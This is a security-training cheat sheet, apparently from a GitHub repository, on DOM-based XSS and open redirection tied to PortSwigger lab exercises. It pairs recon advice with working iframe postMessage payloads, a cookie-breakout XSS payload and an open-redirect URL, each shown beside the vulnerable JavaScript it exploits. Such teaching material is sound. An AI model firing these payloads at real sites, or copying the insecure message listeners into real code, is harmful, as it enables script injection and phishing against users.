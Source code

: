 # DOM-based Vulnerabilities

## Summary

* [Recon for DOM-based Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify DOM-based Vulnerabilities

* DOM XSS happens when client-side JavaScript takes user-controllable input (source) and includes it into a dangerous function (sink).

* Use the Browser's Developers Tool and go to the Sources/Debugger tab.  In every page we can search for the keyword “script”, and we can also search through all the JavaScript files.

* In these files/pages, we can search for any **user-controllable sources** and **dangerous sinks** that the JavaScript is using.

* Analyze if JavaScript is taking any sources and including them into dangerous sinks.

* Search all static JavaScript files too.

* The labs in this document and in the [Cross-site Scripting/DOM XSS](#https://portswigger.net/web-security/cross-site-scripting/dom-based) section, include examples of user-controllable sources being used in dangerous sinks.


### Common Sources and Sinks

* https://portswigger.net/web-security/dom-based#common-sources

* https://portswigger.net/web-security/dom-based#which-sinks-can-lead-to-dom-based-vulnerabilities


---
---


## Cheat Sheet 


### Source - Web Messages

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  

    * Example:  window.postMessage(“\<img src=x onerror=alert(1)\>”)

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
<br></br>
* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    document.getElementById('ads').innerHTML = e.data;
})
</script>
```

<br></br>
### Source - Web Messages location.href()

* Use web messages as a source to send malicious data to a target window that will take in that data and include it in a dangerous sink.  Example, the code will place the user-controllable input into the location.href sink, if the message contains the String “http:”. 

    * Example:  window.postMessage(“javascript:alert(1)//http:”)

```html
<iframe src="https://VULNERABLE-APPLICATION.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
<br></br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
</script>
```

<br></br>

### Source - Web Messages JSON.parse()

* There is a client-side script on the application that has an event listener that is listening for a web message.  It is possible to submit crafted input which will be included in the “src” attribute of an \<iframe\>.  This is essentially the “location.href” sink.  We can use a JavaScript pseudo-protocol payload here – javascript:print()

```html
<iframe src=https://VULNERABLE-APPLICATION.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

<br></br>

* **Vulnerable Code:**

```javascript
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```

<br></br>

### DOM XSS - Open Redirection

* There was a client-side script on the application that is taking in a query parameter called “url” and using the value in a location.href sink.  The URL needs to begin with “https://”.  The JavaScript Pseudo-protocol will not work here in this case.  This will simply redirect a user to a different website, can be used for phishing.

```
https://VULNERABLE-APPLICATION.net/post?postId=4&url=https://ATTACKER-SERVER.web-security-academy.net/
```


* **Vulnerable Code:**

```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>
```

<br></br>

### DOM XSS - Cookie Manipulation

* The “window.location” source is being appended to a Cookie using the “document.cookie”.  This Cookie value is reflected back in the application's response within an HTML attribute.  Submit a crafted URL that will break out of the HTML context and execute JavaScript code.

    * Example:  \<a href='https://VULNERABLE-APP.net/product?productId=*user-input*'\>

    * Payload:  '\>\<script\>print()\</script\>

* The iframe will first load the vulnerable URL, which  will store it in "window.location" source.  Then the onload event will redirect to another page on the application, which will trigger the javascript, as the URL is reflected in the response.

```html
<iframe src="https://VULNERABLE-APP.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://VULNERABLE-APP.net';window.x=1;">
```

* **Vulnerable Code:**

```javascript
<script>
   document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
